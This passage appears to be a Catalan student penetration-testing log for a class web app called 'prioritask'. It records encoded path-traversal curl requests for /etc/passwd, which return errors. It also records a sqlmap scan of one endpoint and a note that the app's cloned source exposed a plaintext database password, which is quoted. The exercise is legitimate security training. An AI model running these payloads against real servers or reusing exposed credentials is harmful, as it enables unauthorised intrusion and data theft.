 ```
jaumellb@jaumellb-virtualbox:$ curl http://prioritask.daw.institutmontilivi.cat/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>400 Bad Request</title>
</head><body>
<h1>Bad Request</h1>
<p>Your browser sent a request that this server could not understand.<br />
</p>
</body></html>
```

```
jaumellb@jaumellb-virtualbox:$ curl http://prioritask.daw.institutmontilivi.cat/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f/etc/passwd
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL was not found on this server.</p>
</body></html>
```

**Acció 2:**

Persona --> Jaume
Temps --> 08/03/2023 --> 17:30
Acció --> Descarregar el codi del repositori amb un Git Clone obtingut amb osint 
Endpoint --> http://prioritask.daw.institutmontilivi.cat/
Resultat --> Tenim tot el codi de l'aplicació. MOLT IMPORTANT, hem obtingut la contrasenya de connexió a la base de dades. 
Output:

Contrasenya de la base de dades:
`self::$connection = new PDO("mysql:host=localhost;dbname=PrioriTaskBD", "adminer", "Bhun@89ble.oient");`
També sabem que el gestor de base de dades és `adminer`

Codi:
![image](https://user-images.githubusercontent.com/113126548/223785965-09e604e2-3fb2-4baa-9e5f-0034b3debffc.png)

**Acció 3:**

Persona --> Angel
Temps --> 08/03/2023 --> 10:50 --> 11:00
Acció --> Sql map 
Endpoint -->  http://prioritask.daw.institutmontilivi.cat/modificar-tasca
Resultat --> Els parametres probats no son injectables
Output: -->
```
┌─[✗]─[angel@angel-parrot]─[~]
└──╼ $sqlmap -u http://prioritask.daw.institutmontilivi.cat/modificar-tasca?id=1 --level 1
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.6.4#stable}
|_ -| . [.]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 10:54:56 /2023-03-08/

```